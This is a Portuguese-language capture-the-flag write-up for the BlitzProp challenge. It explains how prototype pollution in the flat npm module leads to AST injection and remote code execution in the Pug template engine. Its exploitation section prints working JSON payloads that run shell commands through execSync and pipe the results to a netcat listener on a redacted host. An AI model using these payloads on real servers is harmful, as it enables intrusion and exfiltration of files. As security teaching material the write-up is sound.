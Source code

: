 ```yaml
---
layout: post
title: "BlitzProp - Cyber Apocalypse CTF 2021"
date: 2021-04-25 17:00:00 -0300
categories: CyberApocalypse
---
```

## Resumo

![img](/assets/BlitzProp/1.png)

BlitzProp foi um desafio do CTF Cyber Apocalypse realizado pelo Hack The Box e Crypto Hack, envolveu vulnerabilidades como Prototype Pollution, que possibilita o AST Injection e evolui para RCE.

## Recon
O desafio permitia o download do código fonte da aplicação, que utilizava como backend nodejs, as seguintes dependências existiam para o funcionamento da aplicação:

![img](/assets/BlitzProp/2.png)

O módulo flat permite a transformação de um objeto javascript em JSON e vice-versa. Abaixo um exemplo da função *unflatten*, utilizada na aplicação.

``` js
var unflatten = require('flat').unflatten
unflatten({
 'three.levels.deep': 42,
 'three.levels': {
 nested: true
 }
})

// {
// 		three: {
// 			levels: {
// 					deep: 42,
// 					nested: true
// 					}
// 				}
// }
```

Já a dependência Pug se trata de um *template engine*, que permite concatenar tags HTMLs junto do código javascript, para renderizar um template pré-definido.

```html
<!--
doctype html
html(lang\="en")
  head
    title\= pageTitle
    script(type\='text/javascript').
      if (foo) bar(1 + 5)
  body
    h1 Pug - node template engine
    #container.col
      if youAreUsingPug
        p You are amazing
      else
        p Get on it!
      p.
        Pug is a terse and simple templating language with a
        strong focus on performance and powerful features.
-->
 
<!-- Se torna: --> 

<!DOCTYPE html\>
<html lang\="en"\>
  <head\>
    <title\>Pug</title\>
    <script type\="text/javascript"\>
      if (foo) bar(1 + 5)
    </script\>
  </head\>
  <body\>
    <h1\>Pug - node template engine</h1\>
    <div id\="container" class\="col"\>
      <p\>You are amazing</p\>
      <p\>Pug is a terse and simple templating language with a strong focus on performance and powerful features.</p\>
    </div\>
  </body\>
</html\>
```

Como podemos visualizar no código abaixo, a aplicação recebe nosso corpo da requisição POST, aplica o *unflatten* nesta requisição e após isso compara com algumas das opções pré-definidas.
Caso a string recebida no corpo da requisição estivesse dentro da comparação, o módulo *pug* é chamado para realizar um template para a resposta.

![img](/assets/BlitzProp/3.png)

Podemos perceber que não há nenhuma função que rejeite a entrada de dados por parte da API, ou seja, ela recebe o body da requisição e acaba o processando.

## Exploitation
Como toda avaliação de segurança, após o reconhecimento da aplicação é necessário realizar o levantamento de vulnerabilidades. Conforme anotado na sessão de reconhecimento, temos as dependências *Pug* na versão **3.0.0** e a dependência *Flat* na versão **5.0.0**.
Um dos melhores sites para pesquisar por vulnerabilidades em pacotes npm é o [snik.io](https://snyk.io/vuln/npm:flat@5.0.0), procurando pela versão do flat, é possível identificar que o mesmo é vulnerável a prototype pollution.

![img](/assets/BlitzProp/4.png)

[Prototype pollution é uma vulnerabilidade que afeta o javascript, se trata da capacidade de um agente malicioso injetar propriedades dentro de objetos.](https://github.com/Kirill89/prototype-pollution-explained) O Javascript permite que todos os atributos de objetos possam ser alterados, incluindo os seus atributos principais como *\_\_proto\_\_*, *constructor* e *prototype*.

Deste modo, para verificar se o módulo da API estava realmente vulnerável, enviei uma requisição JSON alterando o atributo song.name para que retornasse sempre verdadeiro.

![img](/assets/BlitzProp/5.png)

Após esta requisição, todas as requisições para API retornam a compilação do template, comprovando a vulnerabilidade. 
Avaliando a vulnerabilidade do módulo flat, comecei a procurar por vulnerabilidades relacionadas com a dependência pug, foi onde encontrei uma [vulnerabilidade de RCE](https://snyk.io/vuln/SNYK-JS-PUG-1071616), que permite uma execução de comandos caso seja possível controlar a opção *pretty* do compilador do pug. Porém, não se encaixa na nossa aplicação pois esta opção não é utilizada.
Pesquisando um pouco mais, foi possível encontrar este excelente [artigo](https://blog.p6.is/AST-Injection/) que entrelaça a vulnerabilidade de Prototype Pollution com AST-Injection, desencadeando um RCE em mecanismos de template como o pug, mostrado no artigo.
[Abstract Syntax Trees (ASTs)](https://www.twilio.com/blog/abstract-syntax-trees) é a representação de código em árvore, são uma parte fundamental da maneira que um compilador trabalha. 
Dessa forma, podemos realizar uma injeção de AST via prototype pollution, fazendo com que o compilador execute nosso código malicioso.  
De acordo com este [artigo](https://blog.p6.is/AST-Injection/), podemos realizar a injeção do código malicioso no compilador do pug, por meio do objeto *block* realizamos a alteração de uma variável de debug chamada *pug_debug_line* com o código abaixo: 

```json
{

	"__proto__.block": {

	 "type": "Text",

	 "line": "Alterar pug_debug_line"

	}

   }

```

Enviando a requisição acima acarreta na alteração do objeto e variável do compilador do pug, fazendo com que o texto contido em "line" seja processado. Por meio dessa poluição, conseguimos injetar um código malicioso e gerar execução remota de comandos no servidor, por meio do código abaixo:

```json
{

	"__proto__.block": {

	 "type": "Text",

	 "line": "process.mainModule.require('child_process').execSync(`ls | nc [REDACTED] 12562`)"

	}

   }

```

E dessa forma conseguimos visualizar o nome da flag da challenge.

![img](/assets/BlitzProp/6.png)

Enviamos outra requisição:

```json
{

	"__proto__.block": {

	 "type": "Text",

	 "line": "process.mainModule.require('child_process').execSync(`cat flagYO1AC | nc [REDACTED] 12562`)"

	}

   }

```

E Voilà, desafio concluído!

![img](/assets/BlitzProp/7.png)

## Considerações Finais

Podemos perceber por meio deste desafio como a vulnerabilidade de prototype pollution pode ser perigosa para muitas aplicações, pois consegue interagir diretamente com todos os objetos. Este tipo de falha começa a ficar cada vez mais comum visto a ampla adoção de frameworks javascript e typescript no mercado.

